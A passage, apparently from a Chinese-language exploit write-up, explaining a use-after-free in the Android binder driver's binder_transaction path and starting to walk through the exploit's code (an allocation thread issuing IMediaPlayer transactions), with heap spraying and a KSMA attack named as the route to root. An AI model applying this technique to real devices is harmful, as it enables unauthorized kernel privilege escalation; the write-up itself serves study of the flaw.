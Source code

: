 想办法kfree掉主线程中刚刚分配完映射好的binder_buffer,即可造成uaf

```c
//binder_transaction
binder_transaction{
    
[...]
off_start = (binder_size_t *)(t->buffer->data +
				      ALIGN(tr->data_size, sizeof(void *)));
	offp = off_start;
        printk(KERN_INFO "20000s binder ocuppy end, target pid:%d, buffer:%p, free:%d, user_allow_free:%d, buffer data:%p, buffer user data:%lx, cupid:%d\n", target_proc->pid, t->buffer, t->buffer->free, t->buffer->allow_user_free, t->buffer->data, (uintptr_t)t->buffer->data + binder_alloc_get_user_buffer_offset(&target_proc->alloc), smp_processor_id());
	if (copy_from_user(t->buffer->data, (const void __user *)(uintptr_t)
			   tr->data.ptr.buffer, tr->data_size)) {
		binder_user_error("%d:%d got transaction with invalid data ptr\n",
				proc->pid, thread->pid);
		return_error = BR_FAILED_REPLY;
		return_error_param = -EFAULT;
		return_error_line = __LINE__;
		goto err_copy_data_failed;
	}
[***]

}
```

在之后的binder_transaction流程中函数不会对我们的数据检查，直接将我们用户态的数据(对此进行伪造)拷贝到uaf的buffer->data上去，之后我们再堆喷喷上去，使用ksma攻击即可进行提权

接下来通过讲解exp的方式来说明漏洞利用即补充细节

ps: exp使用了大量android framework层面函数，我不打算对此进行说明，仅讲解它在kernel层做了哪些事

首先是

```c
createAllocThread();
```

它具体干了以下事

```c
void createAllocThread()
{
	pthread_mutex_init(&alloc_mutex, NULL);
	pthread_cond_init (&alloc_cond, NULL);
	pthread_t id_transaction;
        pthread_create(&id_transaction,NULL, bc_transaction, NULL);
}


void* bc_transaction(void *arg)
{
	pthread_mutex_lock(&alloc_mutex);
	while(1) 
	{
		pthread_cond_wait(&alloc_cond, &alloc_mutex);
		dataBCArray[global_parcel_index].writeInterfaceToken(String16("android.media.IMediaPlayer"));
                IInterface::asBinder(mediaPlayer)->transact(GET_PLAYBACK_SETTINGS, dataBCArray[global_parcel_index], &replyBCArray[global_parcel_index], 0);
	}
	pthread_mutex_unlock(&alloc_mutex);
    	//const uint8_t * replyData = reply.data();
	return arg;
}
```
